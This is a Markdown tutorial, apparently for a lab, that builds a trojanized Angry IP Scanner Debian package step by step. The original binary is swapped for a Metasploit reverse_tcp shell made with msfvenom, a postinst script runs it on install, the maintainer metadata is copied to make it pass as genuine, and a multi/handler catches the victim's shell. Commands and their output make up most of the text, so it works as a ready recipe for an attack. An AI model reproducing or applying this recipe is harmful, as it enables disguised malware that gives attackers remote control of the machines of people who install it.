 # Package a Linux Trojan
Follow the steps below to package a Metasploit Trojan payload in an Ubuntu `deb` package.
We use Kali Linux to package the `deb` because it pre-installs `Metasploit` that we need to use later.

We will use the package `ipscan`; you should `wget` this legitimate version:
```
wget https://github.com/angryip/ipscan/releases/download/3.5.5/ipscan_3.5.5_amd64.deb
```
Suppose that the package `ipscan` is downloaded at `~/Desktop`. We will create a Trojan version in a new directory:
```
mkdir ipscan_trojan
mv ipscan_3.5.5_amd64.deb ipscan_trojan/
cd ipscan_trojan/
```
We need to extract the package to a working directory and create a `DEBIAN` directory:
```
(root💀kali)-[/home/vagrant/Desktop/ipscan_trojan]
└─# dpkg -x ipscan_3.5.5_amd64.deb work
(root💀kali)-[/home/vagrant/Desktop/ipscan_trojan]
└─# mkdir work/DEBIAN
```
Now in the `DEBIAN` directory, we need to create a `control` file that contains the following:
```
Package: ipscan
Section: net
Version: 3.5.5-1
Priority: optional
Architecture: amd64
Installed-Size: 1940
Depends: openjdk-11-jre | openjdk-10-jre | oracle-java10-installer | openjdk-9-jre | oracle-java9-installer | openjdk-8-jre | oracle-java8-installer | openjdk-7-jre | oracle-java7-installer
Maintainer: Anton Keks <anton@azib.net>
Description: Angry IP Scanner - fast and friendly IP Scanner
 Angry IP Scanner is a cross-platform network scanner written in Java.
 It can scan IP-based networks in any range, scan ports, and resolve
 other information.
 The program provides an easy to use GUI interface and is very extensible,
 see https://angryip.org/ for more information.
```
You can obtain the information above from the legitimate `ipscan`:
```
dpkg-deb -I /home/vagrant/Desktop/ipscan_trojan/ipscan_3.5.5_amd64.deb control
```
Note that `/home/vagrant/Desktop/ipscan_trojan/ipscan_3.5.5_amd64.deb` is the legitimate package that we are working on.
We also need to create a post-installation script. In `DEBIAN/` we will create a `postinst` file that contains the following information:
```
#!/bin/sh

sudo chmod 2755 /usr/bin/ipscan && /usr/bin/ipscan &
```
Now we create our payload:
```
(root💀kali)-[/home/…/Desktop/ipscan_trojan/work/DEBIAN]
└─# msfvenom -a x64 --platform linux -p linux/x64/shell/reverse_tcp LHOST=192.168.33.12 LPORT=443 -b "\x00" -f elf -o /home/vagrant/Desktop/ipscan_trojan/work/usr/bin/ipscan
Found 4 compatible encoders
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=55, char=0x00)
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 175 (iteration=0)
x64/xor chosen with final size 175
Payload size: 175 bytes
Final size of elf file: 295 bytes
Saved as: /home/vagrant/Desktop/ipscan_trojan/work/usr/bin/ipscan
```
Note that the package works on x86-64 Linux (alas the parameters used in `-a` and `--platform`. We use `reverse_tcp` as the payload.
`LHOST` is the malicious host that accepts the reverse connection. In our case, the IP address of our malicious server is `192.168.33.12`.
You can know the server's IP address by running the `ifconfig` command (you can also specific the IP address in `Vagrantfile`).
You should be able to pick a random free port; we pick `443`.
Finally, we do:
```
(root💀kali)-[/home/…/Desktop/ipscan_trojan/work/DEBIAN]
└─# chmod 755 postinst
                                                                                                 
┌──(root💀kali)-[/home/…/Desktop/ipscan_trojan/work/DEBIAN]
└─# dpkg-deb --build /home/vagrant/Desktop/ipscan_trojan/work
dpkg-deb: building package 'ipscan' in '/home/vagrant/Desktop/ipscan_trojan/work.deb'.
```
Now we should see:
```
(root💀kali)-[/home/vagrant/Desktop/ipscan_trojan]
└─# ls
ipscan_3.5.5_amd64.deb  work  work.deb
```
We should rename `work.deb` to `ipscan_3.5.5_amd64.deb` and store it somewhere else. This is the malicious `deb` package.

# Attack
We set up the Metasploit `multi/handler` to receive the incoming connection from a victim machine to the malicious server (`192.168.33.12`).
This setup is done at the server side, which in our case is the same machine that package the malicious `dev` package:
```
(root💀kali)-[/home/vagrant/Desktop/ipscan_trojan]
└─# msfconsole -q -x "use exploit/multi/handler;set PAYLOAD linux/x64/shell/reverse_tcp; set LHOST 192.168.33.12; set LPORT 443; run; exit -y"
[*] Using configured payload generic/shell_reverse_tcp
PAYLOAD => linux/x64/shell/reverse_tcp
LHOST => 192.168.33.12
LPORT => 443
[*] Started reverse TCP handler on 192.168.33.12:443

```
The server is now waiting for any reverse TCP connection.

When a victim machine download and install this malicious package:
```
sudo dpkg -i ipscan_3.5.5_amd64.deb
```
We should see something like this on the server side:
```
[*] Sending stage (38 bytes) to 192.168.33.8
[*] Command shell session 1 opened (192.168.33.12:443 -> 192.168.33.8:35518) at 2021-06-03 12:23:29 -0400

```

## Reference:
https://www.offensive-security.com/metasploit-unleashed/binary-linux-trojan/
